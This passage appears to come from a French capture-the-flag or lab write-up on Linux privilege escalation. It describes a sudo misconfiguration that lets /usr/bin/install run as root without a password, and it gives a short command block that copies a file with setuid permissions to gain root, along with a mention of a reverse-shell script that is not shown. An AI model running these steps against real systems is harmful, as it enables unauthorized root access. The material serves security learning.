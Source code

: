 ![Alt text](img/pistesudo.png "Linpeas binaire mal conf")

Le binaire sudo était mal configuré et nous permettait de lancer le binaire /usr/bin/install sans mot de passe et avec les droits superutilisateur.

Pour l'exploiter, il nous faut créer un fichier contenant un script exécutant un reverse shell.
![Alt text](img/Root.png "Requête Post")

Nous devons ensuite utiliser le binaire install

`
LFILE=file_to_change
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
`

![Alt text](img/ygegqfd.png "Exploitation")
